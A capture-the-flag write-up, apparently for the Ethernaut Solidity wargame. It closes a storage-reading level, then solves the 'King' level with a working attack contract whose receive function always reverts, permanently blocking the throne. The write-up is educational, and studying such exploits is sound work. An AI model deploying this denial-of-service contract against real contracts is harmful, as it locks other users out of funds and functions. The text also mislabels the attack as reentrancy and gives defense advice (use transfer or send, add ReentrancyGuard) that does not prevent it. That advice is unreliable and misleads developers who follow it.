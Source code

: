 Key learnings:
- Understanding Solidity storage layout
- Using low-level functions (like web3.eth.getStorageAt) to access private variables
- Don't store sensitive data directly on-chain, even with private keyword.
- If need to store sensitive data, recommend using encryption and only decrypt when necessary.

## 09. King ✅ [Easy]

This level tests understanding of special variant of reentrancy attack:
- Reentrancy attack is when attacker exploits contract vulnerability to call a function multiple times during execution to gain more benefits.
- Attackers can use reentrancy attack to gain contract control

Attack steps:
1. If current king is a smart contract and that contract's receive function can't receive ETH (or intentionally makes transaction fail), new king can't successfully call receive, thus preventing any other player from becoming new king.
2. Deploy an attack contract and become king through it.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingAttack {
    address public target;

    constructor(address _target) public {
        target = _target;
    }

    function attack() public payable {
        // Call target contract and become new king
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // Intentionally make receive ETH function fail
    receive() external payable {
        revert("I refuse to give up the throne!");
    }
}
```

3. Deploy attack contract and provide sufficient ETH (greater than current prize)

Key learnings:
- Understanding receive function's role: In target contract, receive function is core logic for receiving ETH. If receiver can't properly handle ETH transfer, transaction will fail.
- Defense suggestions: Avoid using low-level calls (like call) for transfers, can use transfer or send which automatically revert on transfer failure.
- In contract design, avoid relying on external contract behavior for core logic.
- Use modern contract frameworks (like OpenZeppelin's ReentrancyGuard) to implement secure reentry control
